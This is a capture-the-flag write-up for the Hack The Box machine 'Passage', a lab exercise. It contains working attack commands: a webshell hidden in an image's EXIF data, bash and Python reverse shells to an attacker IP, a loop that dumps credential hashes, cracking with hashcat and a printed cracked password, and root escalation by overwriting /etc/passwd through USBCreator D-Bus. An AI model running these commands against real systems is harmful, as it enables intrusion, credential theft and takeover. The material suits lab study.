# [Passage](https://app.hackthebox.com/machines/Passage)

```bash
nmap -p- --min-rate 10000  10.10.10.206 
```




After knowing open ports(22,80), we do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80 10.10.10.206 -Pn
```




We find interesting CMS from source code of page.




Let's browse here, it is News Management System.




Let's search register and try to enumerate web application.




From here, I understand that maybe we can upload malicious file into uploads folder, then got reverse shell .

Let's try.

1. We need to  have one .png file
2. Using `exiftool` command , I batch reverse shell script into this .png file, while browsing this image, I can execute commands.



While uploading, I need to change filetype into '.php' as execution purposes.


Let's upload ,browse the file and see the result.



Here's what, we can execute commands.


Let's add our reverse shell into cmdlet position.
```bash
bash -c 'bash -i >& /dev/tcp/10.10.16.5/1337 0>&1'
```

But above one, doesn't work, that's why I changed into Python as below.

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.5",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```






Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```



From source code [analysis](https://github.com/CuteNews/cutenews-2.0/blob/d5dd74227b888644a72799641ce35b2e711e276f/core/db/coreflat.php#L241), we see that "/var/www/html/CuteNews/cdata/users" there are files about users of CMS.

These file's names generated due to **username** field




That's why, let's look at our username's MD5 hash.
```bash
echo -n dr4ks | md5sum
```




As you it starts with 66, that's why **66.php** file belongs to us.
Let's read this file try to extract some info.



From this data, we learn that it holds **Deserialized Data**, file reading this file via **base64** decoding.

We see that our password is **hashed** and we know that hash type is **SHA-256**


Let's learn all user's passwords.
```bash
curl -s http://10.10.10.206/CuteNews/cdata/users/lines | grep -v "php die" | while read line; do decode=$(echo $line | base64 -d); email=$(echo $decode | grep -Po '\w+@\w+\.\w+'); hash=$(echo $decode | grep -Po '\w{64}'); if [ -n "$hash" ]; then echo "$email:$hash"; fi; done
```




From here, let's grab password of '**paul**' user.
```bash
hashcat -m 1400 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```



paul: atlanta1


user.txt




We find the user nadav in the authorized_keys under the .ssh folder. So nadav can ssh into user paul without password. So maybe paul can do that too? Paul and Nadav seems close friends, huh?

We try ssh ing into nadav from paul and succeed!



```bash
ssh nadav@10.10.10.206
```





After enumeration, I see some interesting stuff from '.viminfo' file.



I found such privilege escalation [technique](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/) from internet


Let's do this.

```bash
cd /dev/shm
cp /etc/passwd passwd
openssl passwd -1 dr4ks
echo 'dr4ks:$1$l4yliEno$q.LdnO8/jhMGmzEypOtj10:0:0:pwned:/root:/bin/bash' >> passwd 
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /dev/shm/passwd /etc/passwd true
()
```

After these operaitons, we check we are root user or not
```bash
tail -3 /etc/passwd
```




Yes, we are root user already.


root.txt

